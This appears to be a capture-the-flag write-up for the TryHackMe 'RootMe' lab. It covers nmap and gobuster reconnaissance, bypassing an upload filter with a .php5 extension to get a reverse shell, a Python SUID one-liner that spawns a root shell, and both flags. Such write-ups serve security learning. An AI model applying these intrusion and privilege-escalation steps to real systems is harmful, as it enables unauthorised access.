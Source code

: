 > Sun 3 Aug 2025
> al3xx

![[Write-ups/TryHackMe/Linux/img/s9.png]]
# RootMe

## 1. Reconnaissance
### TCP Scan
```bash
sudo nmap -sC -sV -T4 10.10.155.21 -oN nmap/rootMe.txt
```

**Open ports**

| port | service | version                         |
| ---- | ------- | ------------------------------- |
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Apache httpd 2.4.29 ((Ubuntu))  |

## 2. Enumeration
### 1. Web Enumeration
- Port **80** is open.
- Visiting the website initially showed nothing interesting.
- Used **Gobuster** to find hidden directories:
```bash
gobuster dir -u 10.10.155.21 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 2>/dev/null
```

result:
```TEXT
/uploads
/css
/js
/panel
```

## 3. Exploitation
- Found a **file upload vulnerability** in the `/panel` route.
- The upload blocks files ending with `.php`.
- Bypassed this by uploading files with `.php5` extension.
- After uploading the reverse shell, accessed it via the `/uploads` directory to get a shell.

## 4. Post-Exploitation
After getting shell access, searched for `user.txt` and found the user flag:
```TEXT
THM{y0u_g0t_a_sh3ll}
```
located at `/var/www/user.txt`.

Checked for SUID files with:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Found an interesting SUID file:
```bash
266770   3580 -rwsr-sr-x   1 root root 3665768 Aug 4 2020 /usr/bin/python
```

## 5. Privilege Escalation
Since `/usr/bin/python` runs as root with SUID, used it to spawn a root shell:
```bash
/usr/bin/python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
```

After gaining root, searched for `root.txt` and found the root flag:
```TEXT
THM{pr1v1l3g3_3sc4l4t10n}
```
located at `/root/root.txt`.